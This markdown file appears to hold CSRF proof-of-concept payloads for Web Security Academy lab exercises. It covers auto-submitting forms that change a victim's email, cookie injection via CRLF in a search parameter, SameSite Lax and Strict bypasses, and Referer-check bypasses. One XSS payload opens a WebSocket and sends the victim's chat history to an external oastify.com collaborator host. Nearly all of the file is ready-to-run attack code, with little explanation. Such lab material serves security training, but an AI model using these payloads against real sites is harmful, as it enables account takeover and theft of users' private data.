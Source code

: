 # Change victim's email by delivering HTML

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://example.com/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@email.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

# CSRF where token is tied to non-session cookie
Chaining with HTTP Header Injection attack
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a82007f0444bb23803afdf700cd0005.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="tes010sdsadsasdasdasdsaadsa101t@email.com" />
      <input type="hidden" name="csrf" value="Ggd1f3fPljuKvc8LrMc7ph2D81DY0cYh" />
      <input type="submit" value="Submit request" />
    </form>
  <img src="https://0a82007f0444bb23803afdf700cd0005.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=NjUazbrT7WjabAgfxcyyOmHbRJpSrn5e%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

# CSRF where token is duplicated in cookie
Chaining with HTTP Header Injection attack
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/');</script>
    <form action="https://0a2200f804d13376803bd0c0002500ff.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="csrf" value="fake" />
      <input type="hidden" name="email" value="test123@test.com" />
      <input type="submit" value="Submit request" />
    </form>

    <img src="https://0a2200f804d13376803bd0c0002500ff.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>

```

# Lax Bypass via method override
```html
<html>
  <body>
    <script>
      document.location = "https://0a83000003266e2e81bd43e300e800e2.web-security-academy.net/my-account/change-email?email=hack@test.com&_method=POST"
    </script>
  </body>
</html>
```

# SameSite Strict bypass via client-side redirect
```html
<html>
  <body>
    <script>
      document.location = "https://0ab300be042367bb8e52f549006800bf.web-security-academy.net/post/comment/confirmation?postId=1/../../../my-account/change-email?email=hack2%40test.com%26submit=1"
    </script>
  </body>
</html>
```

# SameSite Strict bypass via sibling domain
1. User is redirected to a website with different subdomain which is vulnerable to XSS
2. XSS payload is
```javascript
<script>
    var ws = new WebSocket('wss://0a3000b803074751804203d000d40031.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://0648kceqs985mif9anphzwo2wt2kqbe0.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
3. XSS payload
 - creates a new websocket which is initiated with HTTPS request (sends its cookie with request)
 - set onmessage event listener to send event data (chat history) to collaborator 

```html
<script>
    document.location = "https://cms-0a3000b803074751804203d000d40031.web-security-academy.net/login?username=%3Cscript%3E%0A%20%20%20%20var%20ws%20%3D%20new%20WebSocket%28%27wss%3A%2F%2F0a3000b803074751804203d000d40031.web-security-academy.net%2Fchat%27%29%3B%0A%20%20%20%20ws.onopen%20%3D%20function%28%29%20%7B%0A%20%20%20%20%20%20%20%20ws.send%28%22READY%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20ws.onmessage%20%3D%20function%28event%29%20%7B%0A%20%20%20%20%20%20%20%20fetch%28%27https%3A%2F%2F0648kceqs985mif9anphzwo2wt2kqbe0.oastify.com%27%2C%20%7Bmethod%3A%20%27POST%27%2C%20mode%3A%20%27no-cors%27%2C%20body%3A%20event.data%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2Fscript%3E&password=anything";
</script>
```

# SameSite Lax bypass via cookie refresh
```html
<form method="POST" action="https://0a2400c2036c579381f3202d00e500c9.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwnedaaa@web-security-academy.net">
</form>
<script>
    window.open('https://0a2400c2036c579381f3202d00e500c9.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

# CSRF where Referer validation depends on the header being present
```html
<html>
<head>
<meta name="referrer" content="no-referrer">
</head>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3c00eb04008678809a994d00b900c3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


# CSRF with broken Referer validation
Add header below to allow query parameters in referrer header
```
Referrer-Policy: unsafe-url
```

```html
<html>
  <body>
    <script>
             history.pushState('', '', '/?0a4c00a9048af37580281c99007e00b0.web-security-academy.net');
    </script>
    <form action="https://0a4c00a9048af37580281c99007e00b0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1222&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```